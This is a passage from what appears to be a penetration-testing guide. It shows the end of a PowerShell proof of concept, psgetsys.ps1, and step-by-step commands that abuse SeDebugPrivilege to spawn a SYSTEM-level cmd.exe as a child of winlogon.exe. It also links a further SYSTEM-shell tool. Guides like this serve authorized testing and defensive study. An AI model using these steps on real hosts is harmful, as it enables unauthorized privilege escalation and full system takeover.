 ```powershell
         $ppid,
         [Parameter(Mandatory=$true, Position=1)]
		 $command,
         [Parameter(Mandatory=$false, Position=2)]
         $cmdargs
		 
    )


if (-not ([System.Management.Automation.PSTypeName]'MyProcess').Type)
{
    Add-Type -TypeDefinition $mycode
}


[MyProcess]::CreateProcessFromParent($ppid,$command,"$command $cmdargs")

}
```

How to run it:

```
# The two dots are not an error
. .\psgetsys.ps1 
ImpersonateFromParentPid -ppid 612 -command "c:\Windows\System32\cmd.exe" -cmdargs ""
```

Note that we must add a third blank argument `""` at the end for the PoC to work properly.

**Example:** 

**1.** First, open an elevated PowerShell console in the host machine.

**2.** Run tasklist

```
tasklist
```

**3.** Here we can target `winlogon.exe` running under PID 612, which we know runs as SYSTEM on Windows hosts. We will generate a child process for that parent process.

**4.** Run the script:

```
# The two dots are not an error
. .\psgetsys.ps1 
ImpersonateFromParentPid -ppid 612 -command "c:\Windows\System32\cmd.exe" -cmdargs ""
```

An Admin CMD will open. 


### Remote Code Execution as SYSTEM #2 

Other tools such as [this one](https://github.com/daem0nc0re/PrivFu/tree/main/PrivilegedOperations/SeDebugPrivilegePoC) exist to pop a SYSTEM shell when we have `SeDebugPrivilege`.